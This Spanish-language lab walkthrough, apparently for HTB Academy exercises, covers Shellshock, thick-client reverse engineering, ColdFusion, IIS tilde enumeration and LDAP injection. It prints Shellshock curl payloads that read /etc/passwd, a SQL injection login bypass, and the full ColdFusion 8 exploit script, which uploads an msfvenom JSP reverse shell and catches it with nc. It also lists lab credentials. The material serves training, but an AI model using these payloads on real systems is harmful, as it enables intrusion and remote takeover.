El servidor web recibe los datos que tú le envías y se los pasa a un script. Para pasarle estos datos, el servidor los guarda en lo que se llaman **variables de entorno** dentro de la consola Bash del servidor.

El fallo de seguridad estaba en **Bash**.

A Bash le podías pasar una función. Las funciones en Bash se escriben así: `() { :; };`. El problema es que Bash era "demasiado cotilla y obediente". Si después de la función le añadías un comando real (como `echo "hola"`), Bash, por un error de programación, **no se limitaba a guardar la función, sino que ejecutaba inmediatamente el comando que iba detrás**.

Una vez entendido la vulnerabilidad, intentaremos encontrar el archivo **.cgi** que se encuentra dentro de la carpeta **cgi-bin**

```
gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/dirb/wordlists/small.txt -x cgi
```

<p align="center"> 

</p>

Una vez localizado el archivo **.cgi** de la pagina web.

```
http://10.129.205.27/cgi-bin/access.cgi
```

Prepararemos el siguiente comando para llevar la explotación

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi
```

- **`curl ... http://10.129.205.27/cgi-bin/access.cgi`**: Estás usando `curl` para visitar una página web (un script CGI legítimo) en el servidor de la víctima.
- **`-H 'User-Agent: ...'`**: Aquí está la magia. El parámetro `-H` sirve para modificar las cabeceras HTTP. El `User-Agent` es una línea donde tu navegador normalmente le dice al servidor: _"Hola, soy Google Chrome en Windows"_. Pero tú, en lugar de eso, le estás enviando el virus.
- **`() { :; };`**: Esto le dice a la consola Bash del servidor: _"Oye, soy una función vacía, no hago nada, solo guárdame"_.
- **`echo ; echo ;`**: Esto es un truco técnico necesario para la web. Las páginas web necesitan recibir dos líneas en blanco antes de mostrar texto, si no, el servidor da un error (`HTTP 500 Internals`). Con esto "limpias" la pantalla.
- **`/bin/cat /etc/passwd`**: **Este es el golpe final.** Es el comando que tú quieres que el servidor ejecute. En Linux, `/etc/passwd` es el archivo donde están guardados todos los usuarios del sistema.

<p align="center"> 

</p>

Conseguimos leer el fichero **/etc/passwd** del sistema

Pues siguiendo esta metodología, ahora quiero saber donde me encuentro

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/pwd /' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi   
```

Hemos cambiado **/bin/cat /etc/passwd** a **/bin/pwd /**

<p align="center"> 

</p>

ahora lo que quiero es listar contenido desde donde me encuentro

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/ls /usr/lib/cgi-bin' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi
```

<p align="center"> 

</p>

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /usr/lib/cgi-bin/flag.txt' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi
```

<p align="center"> 

</p>

answer: **Sh3ll_Sh0cK_123**

## Thick Client Applications

### Attacking Thick Client Applications

1. **Perform an analysis of C:\Apps\Restart-OracleService.exe and identify the credentials hidden within its source code. Submit the answer using the format username:password.**

RDP to with user "<font color="#00b050">cybervaca</font>" and password "<font color="#c00000">&aue%C)}6g-d{w</font>"

```
xfreerdp /u:cybervaca /p:'&aue%C)}6g-d{w' /v:10.129.228.115 /size:95% /dynamic-resolution
```

Para empezar usaremos la herramienta **Process Monitor** que se encuentra en **TOOLS** - **ProcessMonitor** - **Procmon**

Una vez iniciado nos iremos a **Filter** - **Filter...** para configurar el archivo **Restart-OracleService.exe**

<p align="center"> 


</p>

Añadimos a la cola el archivo **Restart-OracleService.exe** La idea con esto es que queremos saber que monitoriza cuando ejecutamos dicho programa. Descubrimos que al ejecutarlo crea un archivo en esta dirección **C:\Users\cybervaca\AppData\Local\Temp\2**

<p align="center"> 

</p>

Para acceder a la carpeta **AppData** recuerda activar que se muestren las carpetas **ocultas**

<p align="center"> 

</p>

Descubro que dicho archivo se elimina, para evitar que se elimine en la carpeta **temp** haremos lo siguiente: **properties** - **security** - **advanced** - **cybervaca** - **Disable inheritance** -> **Convert inherited permissions into explicit permissions on this object** -> **Edit** -> **Show advanced permissions** , desactivamos las casillas de selección correspondientes a **Delete subfolders** and **files** y Delete .

Primer paso:

<p align="center"> 

</p>

Segundo paso:

<p align="center"> 

</p>

Tercer paso:

<p align="center"> 

</p>

Cuarto paso:

<p align="center"> 

</p>

Quinto paso:

<p align="center"> 

</p>

Sexto paso:

<p align="center"> 

</p>

Septimo paso:

<p align="center"> 

</p>

octavo paso: (Establece el permiso como estaba, así conseguirás los archivos **monta.ps1** y **oracle.txt** que no se borren)

<p align="center"> 

</p>

Antes de darle todo ok tendremos que ejecutar el siguiente comando para evitar cualquier problema en el **cmd** con permiso de administrador

```
icacls "C:\Users\cybervaca\AppData\Local\Temp\WinSAT" /grant administradores:F /t
```

<p align="center"> 

</p>

Una vez ejecutado nos aparecerá el archivo 5060.bat al ser un archivo temporal a ti te puede salir otro nombre :P a ese archivo le daremos a edit

<p align="center"> 


</p>

Comenta prácticamente que en la carpeta **programdata** se crea dos archivos **monta.ps1** y **oracle.txt**, en la siguiente ruta:

```
C:\ProgramData
```

Dentro del archivo **monta.ps1** encontraremos el siguiente comando 

```
$salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) 
```

Lo ejecutaremos, ten en cuenta que el **oracle.txt** tiene que tener un tamaño aproximado de 1,175kb y debe encontrarse en la ruta **C:\ProgramData**

<p align="center"> 

</p>

Ese comando lo ejecutanmos en powershell con permiso de administrador nos dara un archivo llamado **restart-service**

<p align="center"> 

</p>

Este archivo hay que llevarlo a un programa que se llama **x64dbg** básicamente es un **depurador (debugger) de código abierto** para Windows, diseñado específicamente para analizar programas de 32 bits (x32) y 64 bits (x64) En el mundo de la ciberseguridad, es la herramienta reina para hacer **ingeniería inversa dinámica** y **análisis de malware**.

Nos iremos a **options** - **preferences** y dejamos así:

<p align="center"> 


</p>

Una vez importado el ejecutable **restart-service** debemos de buscar un binario desde **Memory MAP** que tenga las siguientes caracteristicas:

Type **MAP**, Protection **-RW--** y Initial **-RW--**

<p align="center"> 

</p>

Al hacerle doble click al binario nos mandará al cpu y mirado los byte observamos que tiene MZ eso significa que es un archivo **Ejecutable Portable (PE - Portable Executable)** diseñado para correr en sistemas operativos de Microsoft (como MS-DOS y todas las versiones modernas de Windows).

<p align="center"> 

</p>

Exportamos este binario de la siguiente forma 

<p align="center"> 


</p>

Usaremos la herramienta strings para comprobar que contiene el binario que hemos exportado

```
.\strings.exe C:\users\cybervaca\Desktop/restart-service_00000000001F0000.bin
```

<p align="center"> 

</p>

Por ahora tiene buena pinta lo que estamos realizando, a continuación usaremos la herramienta **de4dot** que servirá específicamente para **desofuscar** código. En el mundo de la ciberseguridad y el desarrollo de software, su función principal es **limpiar y hacer legible un programa que ha sido "escondido" a propósito**

```
.\de4dot.exe C:\users\cybervaca\Desktop/restart-service_00000000001F0000.bin
```

<p align="center"> 

</p>

Obtenemos el archivo en la siguiente ubicación **C:\users\cybervaca\Desktop\restart-service_00000000001F0000-cleaned.bin**

Por último usaremos la herramienta **dnSpy** y arrastramos el archivo **restart-service_00000000001F0000-cleaned.bin**

<p align="center"> 

</p>

answer: **svc_oracle:#oracle_s3rV1c3!2010***

### Exploiting Web Vulnerabilities in Thick-Client Applications

1. **What is the IP address of the eth0 interface under the ServerStatus -> Ipconfig tab in the fatty-client application?**

RDP to 10.129.228.115 (ACADEMY-ACA-PIVOTAPI), with user "<font color="#00b050">cybervaca</font>" and password "<font color="#c00000">&aue%C)}6g-d{w</font>"

```
xfreerdp /u:cybervaca /p:'&aue%C)}6g-d{w' /v:10.129.51.229 /size:95% /dynamic-resolution /drive:Shared,/home/dani/Escritorio
```

Explicar como he conseguido resolver esta actividad va ser un logro, pero vamos a intentarlo.

El programa que queremos analizar se encuentra en **C:\Apps** y se llama **fatty-client**. Al principio no nos dejará logearnos con las siguientes credenciales **qtc**:**clarabibi**. Investigando con la herramienta **Wireshark** me doy cuenta que corre el programa en el puerto **8000** pero a lo largo de la actividad nos comenta que funciona la herramienta en el puerto **1337**. Para poder cambiar el puerto haremos lo siguiente:

<p align="center"> 

</p>

Nos saldrá una carpeta con el nombre **fatty-client** nos iremos a la siguiente ruta: **C:\Apps\fatty-client** y usaremos el archivo **beans.xml** y para poder editar su contenido le daremos **boton derecho - edit**

<p align="center"> 

</p>

Justo donde acabo de poner el numero **1337** es donde debo cambiarlo, no olvidemos guardar los cambios. 

<p align="center"> 

</p>

A continuación, borra los archivos **1.RSA** y **1.SF** dentro de `C:\Apps\fatty-client\META-INF`. Ambos archivos funcionan como una protección que verifica la integridad del programa. Como vamos a modificar el código fuente del cliente, el mecanismo de Java detectará que el archivo ha sido alterado y bloqueará su ejecución. Eliminarlos es indispensable para poder correr nuestra versión personalizada sin restricciones de seguridad.

Luego la actividad nos recomendará modificar también el archivo **MANIFEST.MF** que se encuentra `C:\Apps\fatty-client\META-INF` pero no sera necesario modificar NADA, lo dejaremos tal cual como lo hemos encontrado.

Abriremos powershell como administrador y nos situamos en **C:\apps\fatty-client** y ejecutaremos el siguiente comando.

```
jar -cmf .\META-INF\MANIFEST.MF ..\fatty-client-new.jar *
```

>Este comando sirve para **volver a empaquetar y crear** el archivo comprimido `.jar` final con todas tus modificaciones (tus nuevos archivos `.class`), asegurándote de decirle a Java cuál es la clase principal que debe arrancar.

<p align="center"> 

</p>

Iniciamos sesión y conseguiremos loguearnos:

<p align="center"> 

</p>

Investigaremos bastante, habra un mensaje que nos llamará la atención.

<p align="center"> 

</p>

Para saber más de la vulnerabilidades que presenta el programa tendremos que usar herramienta llamada **JD-GUI** que básicamente consiste descompilar la aplicación que estamos analizando. Esta herramienta se encuentra en la carpeta **TOOLS**

<p align="center"> 

</p>

Nos iremos a **file** - **Open File..** - **fatty-client-new** - **open**

<p align="center"> 

</p>

Una vez seleccionado, nos iremos a **File** - **Save all sources**. Lo guardaremos dentro de la carpeta **Apps** eso nos dara un **.zip 

<p align="center"> 

</p>

Ese mismo archivo **zip** lo tenemos que extraer.

<p align="center"> 

</p>

A continuación, obtenemos una de la carpeta mas importante de toda la actividad, en lo siguientes pasos iremos **analizando poco a poco el programa**, **modificar el código fuente** y **compilar**, esto último es muy importante. 

Uno de los análisis más relevantes que se hizo fue al archivo **ClientGuiTest.java** que se encuentra **fatty-client-new.jar.src\htb\fatty\client\gui** 

<p align="center"> 

</p>

Cambiaremos **configs** por **..**

<p align="center"> 

</p>

Con esto estaremos explotando la vulnerabilidad **Path traversal**. Como comentamos modificamos el código fuente ahora nos toca compilar el archivo con el siguiente comando

```
javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java 
```

<p align="center"> 

</p>

Esto dará lugar a todas las clases del archivo **ClientGuiTest.java** tras compilarlo. Luego la idea es crear una carpeta llamada **raw** aquí es donde irá el programa definitivo, a lo largo de la actividad su interior lo iremos borrando hasta obtener el programa que buscamos. Luego volvemos a empaquetar y crear el archivo **fatty-client-new-2.jar** dentro de **raw**

```
mkdir raw
cp fatty-client-new.jar raw\fatty-client-new-2.jar
```

<p align="center"> 

</p>

Luego el archivo **fatty-client-new-2** lo tendremos que extraer porque las clases que obtuvimos de **ClientGuiTest.java** no se han hecho correctamente. 

<p align="center"> 

</p>

Por tanto nos iremos a la siguiente ruta **C:\Apps\raw\fatty-client-new-2\htb\fatty\client\gui** estara lleno, lo eliminamos todos, los archivos que compilados que se encuentra en esta ruta **fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java** lo copiamos  

<p align="center"> 

</p>

Una vez copiado, volvemos a empaquetar y crear el archivo llamado **traverse.jar**

```
cd .\raw\fatty-client-new-2\
jar -cmf META-INF\MANIFEST.MF traverse.jar .
```

<p align="center"> 

</p>

Nos logueamos y nos iremos a **FileBrowser** - **Configs** 

<p align="center"> 

</p>

Tras una ardua investigación descubrimos que tenemos que descargar este archivo **fatty-server.jar** para saber como funciona el login de los usuarios dentro de la aplicación. Por tanto, eliminamos todo el contenido interior de la carpeta **raw**. Nos iremos a la siguiente ruta **C:\Apps\fatty-client-new.jar.src\htb\fatty\client\methods** y modificamos levemente la funcion **open** por el siguiente código**

```java
import java.io.FileOutputStream;
---
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar"; // Recuerda usar /tmp/fatty-server.jar si estás en Linux/Pwnbox
    
    // Al meterlo aquí, Java hace el flush y close automáticamente al salir de las llaves
    try (FileOutputStream fos = new FileOutputStream(desktopPath)) {
        fos.write(content);
        return "Successfully saved the file to " + desktopPath;
    }
}
```

<p align="center"> 


</p>

Guardamos, ahora lo que viene a continuación es compilar el archivo **invoke** con el siguiente comando.

```
javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\methods\Invoker.java
```

<p align="center"> 

</p>

A continuación, repetiremos los mismos pasos cometidos a la hora de crear el programa con los nuevos archivos compilados.

```
cp fatty-client-new.jar raw\fatty-client-new-2.jar
```

<p align="center"> 


</p>

Pasamos las clases de invoke de la ruta **C:\Apps\fatty-client-new.jar.src\htb\fatty\client\methods** a **C:\Apps\raw\fatty-client-new-2\htb\fatty\client\methods**

<p align="center"> 

</p>

 Ahora toca empaquetar el programa. No olvidemos pasar tambien las clases del archivo **ClientGuiTest.java**  en la ruta  **fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java** a nuestro nuevo programa, Porfavor.

```
cd .\raw\fatty-client-new-2\
jar -cmf META-INF\MANIFEST.MF traverse.jar .
```

Iniciamos sesion, nos iremos **FileBrowser** - **Configs** y al lado del botón open escribimos **fatty-server.jar** para conseguir descargar el puñetero archivo.

<p align="center"> 

</p>

Luego, este archivo lo tendremos que descompilar usando nuevamente la herramienta **jd-gui**, para a así conseguir su código fuente. 

<p align="center"> 

</p>

No me voy a extender mucho en la explicación, pero resumiendo bastante, gracias al archivo **fatty-server.jar** intuimos que tenemos que modificar el archivo **User.java** que se encuentra **C:\Apps\fatty-client-new.jar.src\htb\fatty\shared\resources** y luego codificarlo.

<p align="center"> 

</p>

Este trozo de código lo modificamos a

```java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
```

<p align="center"> 

</p>

También modificamos este trozo de código 

<p align="center"> 

</p>

a:

```
public void setPassword(String password) {
    this.password = password;
  }
```

<p align="center"> 

</p>

Luego, codificamos:

```
javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\shared\resources\User.java
```

<p align="center"> 

</p>

Nuevamente borramos todo el contenido de la carpeta **raw** y volvemos a repetir todos los pasos.

```
cp fatty-client-new.jar raw\fatty-client-new-2.jar
```

<p align="center"> 


</p>

Con que nos pasemos los archivos compilado de **User.java** creo que es mas que suficiente.

<p align="center"> 

</p>

```
cd .\raw\fatty-client-new-2\
jar -cmf META-INF\MANIFEST.MF traverse.jar .
```

A la hora de hacer login en el parametro **user** escribimos **abc' UNION SELECT 1,'abc','a@b.com','abc','admin** y en el parametro **passwd** escribimos **abc**

<p align="center"> 

</p>

Por fin, tendremos habilitado el parámetro **ipconfig** que se encuentra en **ServerStatus**

<p align="center"> 

</p>

answer: **172.28.0.3**

## Miscellaneous Applications 

### ColdFusion - Discovery & Enumeration

1. **What ColdFusion protocol runs on port 5500?** 

<p align="center"> 

</p>

answer: **Server Monitor**

### Attacking ColdFusion

1. **What user is ColdFusion running as?**

En esta ocasión en este ejercicio empezaremos usando la herramienta nmap 

```
nmap -A 10.129.58.26
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-23 19:00 +0200
Nmap scan report for 10.129.58.26
Host is up (0.047s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Investigaremos la ip http://10.129.58.26:8500

<p align="center"> 

</p>

```
http://10.129.58.26:8500/CFIDE/
```

<p align="center"> 

</p>

```
http://10.129.58.26:8500/CFIDE/administrator/
```

<p align="center"> 

</p>

Luego, usaremos la herramienta **searchsploit** para buscar la vulnerabilidad **adobe coldfusion 8**

```
searchsploit adobe coldfusion 8
```

El exploit **Remote Command Execution (RCE)** nos interesa bastante ya que obtenemos una shell de la maquina objetivo.   

<p align="center"> 

</p>

```
searchsploit -p cfm/webapps/50057.py
```

El parametro -p lo que hace es **copiar el exploit directamente a mi directorio actual** y, al mismo tiempo, **muestra la ruta absoluta** del archivo en mi sistema.

<p align="center"> 

</p>

Visitamos esta pagina que contiene el [exploit](https://www.exploit-db.com/exploits/50057) de adobe coldfusion 8

```python
# Exploit Title: Adobe ColdFusion 8 - Remote Command Execution (RCE)
# Google Dork: intext:"adobe coldfusion 8"
# Date: 24/06/2021
# Exploit Author: Pergyz
# Vendor Homepage: https://www.adobe.com/sea/products/coldfusion-family.html
# Version: 8
# Tested on: Microsoft Windows Server 2008 R2 Standard
# CVE : CVE-2009-2265

#!/usr/bin/python3

from multiprocessing import Process
import io
import mimetypes
import os
import urllib.request
import uuid

class MultiPartForm:

    def __init__(self):
        self.files = []
        self.boundary = uuid.uuid4().hex.encode('utf-8')
        return

    def get_content_type(self):
        return 'multipart/form-data; boundary={}'.format(self.boundary.decode('utf-8'))

    def add_file(self, fieldname, filename, fileHandle, mimetype=None):
        body = fileHandle.read()

        if mimetype is None:
            mimetype = (mimetypes.guess_type(filename)[0] or 'application/octet-stream')

        self.files.append((fieldname, filename, mimetype, body))
        return

    @staticmethod
    def _attached_file(name, filename):
        return (f'Content-Disposition: form-data; name="{name}"; filename="{filename}"\r\n').encode('utf-8')

    @staticmethod
    def _content_type(ct):
        return 'Content-Type: {}\r\n'.format(ct).encode('utf-8')

    def __bytes__(self):
        buffer = io.BytesIO()
        boundary = b'--' + self.boundary + b'\r\n'

        for f_name, filename, f_content_type, body in self.files:
            buffer.write(boundary)
            buffer.write(self._attached_file(f_name, filename))
            buffer.write(self._content_type(f_content_type))
            buffer.write(b'\r\n')
            buffer.write(body)
            buffer.write(b'\r\n')

        buffer.write(b'--' + self.boundary + b'--\r\n')
        return buffer.getvalue()

def execute_payload():
    print('\nExecuting the payload...')
    print(urllib.request.urlopen(f'http://{rhost}:{rport}/userfiles/file/{filename}.jsp').read().decode('utf-8'))

def listen_connection():
    print('\nListening for connection...')
    os.system(f'nc -nlvp {lport}')

if __name__ == '__main__':
    # Define some information
    lhost = '10.10.16.4'
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
    filename = uuid.uuid4().hex

    # Generate a payload that connects back and spawns a command shell
    print("\nGenerating a payload...")
    os.system(f'msfvenom -p java/jsp_shell_reverse_tcp LHOST={lhost} LPORT={lport} -o {filename}.jsp')

    # Encode the form data
    form = MultiPartForm()
    form.add_file('newfile', filename + '.txt', fileHandle=open(filename + '.jsp', 'rb'))
    data = bytes(form)

    # Create a request
    request = urllib.request.Request(f'http://{rhost}:{rport}/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00', data=data)
    request.add_header('Content-type', form.get_content_type())
    request.add_header('Content-length', len(data))

    # Print the request
    print('\nPriting request...')

    for name, value in request.header_items():
        print(f'{name}: {value}')

    print('\n' + request.data.decode('utf-8'))

    # Send the request and print the response
    print('\nSending request and printing response...')
    print(urllib.request.urlopen(request).read().decode('utf-8'))
    
    # Print some information
    print('\nPrinting some information for debugging...')
    print(f'lhost: {lhost}')
    print(f'lport: {lport}')
    print(f'rhost: {rhost}')
    print(f'rport: {rport}')
    print(f'payload: {filename}.jsp')

    # Delete the payload
    print("\nDeleting the payload...")
    os.system(f'rm {filename}.jsp')

    # Listen for connections and execute the payload
    p1 = Process(target=listen_connection)
    p1.start()
    p2 = Process(target=execute_payload)
    p2.start()
    p1.join()
    p2.join()
```

Lo único que tenemos que modificar de este **.py** son los parámetros **lhost** (Tu ip), **lport** (el puerto de escucha), **rhost** (ip de la maquina objetivo) y **rport** (puerto donde reside **cold fusion**)

```python
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.16.4'
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
    filename = uuid.uuid4().hex
```

Una vez editado, ejecutamos el código

```
python3 exploit.py
```

<p align="center"> 

</p>

answer: **arctic\tolis**

### IIS Tilde Enumeration

> La enumeración de directorios con el símbolo tilde en IIS es una técnica que se utiliza para descubrir archivos, directorios y nombres de archivos abreviados (conocidos como “ `8.3 format` ”) que están ocultos en algunas versiones de los servidores web Microsoft Internet Information Services (IIS). Este método aprovecha una vulnerabilidad específica de IIS, relacionada con la forma en que el sistema gestiona los nombres de archivos abreviados dentro de los directorios.

1. **What is the full .aspx filename that Gobuster identified?**

```
nmap -A 10.129.58.64
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-23 20:26 +0200
Nmap scan report for 10.129.58.64
Host is up (0.047s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Para realizar una enumeracion **IIS Tilde** en el objetivo, usaremos la herramienta para encontrar la ruta basada en tilde, y luego, usamos la herramienta de fuerza bruta de path **gobuster**

Para la herramienta que usaremos para **IIS Tilde** tendremos que instalar y configurar **Java Oracle**. El [Java Oracle](https://www.oracle.com/java/technologies/javase/jdk22-archive-downloads.html) que usaremos es la versión 22.0.1 

<p align="center"> 

</p>

Una vez descargado el archivo usaremos el siguiente comando:

```
sudo apt install ./jdk-22.0.1_linux-x64_bin.deb 
```

El siguiente comando sirve para **gestionar y cambiar la versión de Java por defecto** en tu sistema operativo Linux.

```
sudo update-alternatives --config java
```

El sistema no cambia nada automáticamente, sino que te muestra un **menú interactivo** en la terminal como este: **Elegimos el numero 0**

<p align="center"> 

</p>

Una vez configurado, Descargamos la siguiente herramienta [IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner) con el siguiente comando: 

```
git clone https://github.com/irsdl/IIS-ShortName-Scanner
cd IIS-ShortName-Scanner/release
java -jar iis_shortname_scanner.jar 0 5 http://10.129.58.64/  
```

> Estamos ejecutando una herramienta que busca una **vulnerabilidad clásica de servidores IIS (Microsoft)** llamada _"IIS Short Name"_ o _"Vulnerabilidad 8.3"_.

> El escáner confirma que el servidor de la IP `10.129.58.64` **es vulnerable**. Esto significa que el servidor web revela información interna debido a una configuración heredada de los tiempos de MS-DOS.

> Antiguamente (en MS-DOS), los nombres de archivos no podían tener más de **8 caracteres** para el nombre y **3 caracteres** para la extensión (por ejemplo: `DOCUMENT.TXT`).

>Si creabas un archivo largo como `documento_importante.txt`, el sistema generaba automáticamente un "nombre corto" usando el símbolo de la virgulilla (`~`). Quedaba recortado así: `DOCUME~1.TXT`.

>El fallo del servidor IIS es que **te permite adivinar esos nombres cortos**, revelando carpetas y archivos ocultos que no deberías ver.

**Carpetas identificadas:**

- `ASPNET~1`: Esto suele corresponder a una carpeta interna de la arquitectura .NET de Microsoft (probablemente algo como `aspnet_client`).
- `UPLOAD~1`: **Esto es muy interesante.** Significa que existe una carpeta que empieza por "UPLOAD" (por ejemplo: `uploads`, `uploadfiles`). Como atacante o auditor, este es un objetivo prioritario porque podrías intentar subir archivos ahí.

**Archivos identificados:**

- `CSASPX~1.CS`: Un archivo de código fuente de C# (`.cs`). El nombre real empieza por "CSASPX...".
- `TRANSF~1.ASP`: Un script de ASP clásico. El nombre real empieza por "TRANSF..." (por ejemplo: `transfer.asp` o `transferencias.asp`).

<p align="center"> 

</p>

Como nosotros buscamos un archivo **.aspx**, y el comando no soltó el siguiente archivo **TRANSF~1.ASP**. Por tanto, intentaremos crear un diccionario con palabras que empezaran por "transf". El objetivo era usar ese diccionario para averiguar el nombre largo y completo de este archivo `TRANSF~1.ASP`

```
egrep -r ^transf /usr/share/wordlists | sed 's/^[^:]*://' > /tmp/list.txt
cat /tmp/list.txt  
```

<p align="center"> 

</p>

Luego, usaremos la herramienta gobuster para encontrar la ruta:

```
gobuster dir -u http://10.129.58.64/ -w /tmp/list.txt -x .aspx,.asp
```

<p align="center"> 

</p>

answer: **transfer.aspx**

### Attacking LDAP

> Es un protocolo que suele correr en puertos muy específicos. La forma más rápida y efectiva de saber si una máquina es un servidor LDAP es realizando un escaneo de puertos con **Nmap**.

Los puertos estándar de LDAP son:

- **`389` (TCP/UDP):** LDAP estándar (sin cifrar).
- **`636` (TCP/UDP):** LDAPS (LDAP seguro sobre SSL/TLS).
- **`3268` / `3269`:** Catálogo Global (muy común si es un Servidor de Active Directory en Windows).

1. **After bypassing the login, what is the website "Powered by"?**

```
nmap -A 10.129.205.18
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-23 22:44 +0200
Nmap scan report for 10.129.205.18
Host is up (0.046s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (97%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 3.4 - 3.10 (91%), Linux 4.15 (91%), Linux 5.14 - 6.8 (91%), Linux 2.6.32 - 3.10 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Tras escaneo con la herramienta **nmap** descubrimos que el puerto **389** contiene el protocolo ldap pero se lleva lleva acabo desde el puerto **80** que contiene el protocolo **http**

Este ataque se conoce técnicamente como **Inyección LDAP (LDAP Injection) basada en comodín**. Ocurre cuando una aplicación web toma lo que escribe el usuario (como el nombre de usuario o contraseña) y lo mete directamente en una consulta LDAP sin sanitizar.

En LDAP, el asterisco (`*`) funciona exactamente igual que en Windows o Linux: es un **comodín que significa "cualquier cosa"**.

```
http://10.129.205.18/
```

